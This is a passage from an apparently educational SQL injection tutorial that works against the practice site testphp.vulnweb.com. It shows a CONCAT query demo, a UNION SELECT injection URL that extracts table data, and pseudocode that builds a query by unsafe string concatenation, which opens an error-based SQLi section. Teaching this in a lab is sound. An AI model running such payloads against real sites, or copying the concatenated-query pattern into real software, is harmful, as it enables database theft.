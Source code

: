 ![Desktop View](/assets/img/posts/fundamentals-of-sql-injection/sql14.jpg)
**Congrats !!** we got the username and password fields.
### Concat method
As you see above, I used concat for string formatting.Lets see how it is working from our example database.
```sql
MariaDB [testdb]> SELECT concat("FN:",FirstName, "  LN:",LastName) from users;
+-------------------------------------------+
| concat("FN:",FirstName, "  LN:",LastName) |
+-------------------------------------------+
| FN:Burak  LN:Baris                        |
| FN:Burak2  LN:Baris2                      |
| FN:Burak3  LN:Baris3                      |
+-------------------------------------------+
```
### Guess correction
As you remember, at the `Guessing the design` heading, we come up with a possible query that runs at the server
just by observing the behaviour of the web application. After doing more scans in the database, I see that, that guess
we made above, is kind of close to the real design.

<http://testphp.vulnweb.com/listproducts.php?cat=-00 UNION SELECT 1,pshort,3,4,5,6,title,img,(SELECT aname FROM artists WHERE artist_id=1),10,(SELECT cname FROM categ WHERE cat_id=1) FROM pictures WHERE cat_id=1>
<br>
Gives the same result as:
<br>
<http://testphp.vulnweb.com/listproducts.php?cat=1>

## VULNWEB - ERROR BASED SQLi

As you remember, this is the pseudo code for testphp.vulnweb website.

```python
id=request.get('id')
query="SELECT (some unknown column names) FROM listproducts WHERE cat="+id
#Try:
result = db.execute(query)
#Except:
    #pass

if result.size()>0:
    for i in result:
        print(i.title)
        print(i.img)
        print(i.description)
        print(i.author)
```
